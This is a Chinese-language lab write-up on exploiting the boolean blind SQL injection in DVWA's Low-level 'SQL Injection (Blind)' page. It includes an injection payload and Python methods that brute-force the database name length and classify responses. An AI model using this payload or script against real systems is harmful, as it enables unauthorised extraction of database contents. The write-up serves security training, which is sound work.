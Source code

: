 ###  分析：

 Low级别的代码对参数id没有做任何检查、过滤，存在明显的SQL注入漏洞，同时SQL语句查询返回的结果只有两种： 

` User ID exists in the database.与 User ID is MISSING from the database. `

 所以这里是SQL盲注漏洞。 

###   漏洞利用

 输入1 ，发现 

![M8pniV.png](https://s2.ax1x.com/2019/11/12/M8pniV.png)

 输入 1'， 发现 

![M8CxaR.png](https://s2.ax1x.com/2019/11/12/M8CxaR.png)



 观察到他这里只会出现正确或者错误的两种页面，判定他是一个布尔盲注 

###  获取数据库长度 

```python
    def get_database_length(self):
        self.database_length = 0
        for i in range(1,30):
            self.process('get_database_length',i,30)
            theurl = self.url + "1' and length(database())={0}%23".format(str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.database_length = i
                break
        if self.database_length > 0:
            print('\n==>',self.database_length)
        else:
            print("\ncan not get the database_length")
```

运行结果：

![MGOfVP.png](https://s2.ax1x.com/2019/11/13/MGOfVP.png)

### 检查页面是否正常

```python
 def check(self,text):
        if "User ID exists in the database." in text:
            return True
        elif "User ID is MISSING from the database." in text:
            return False
```
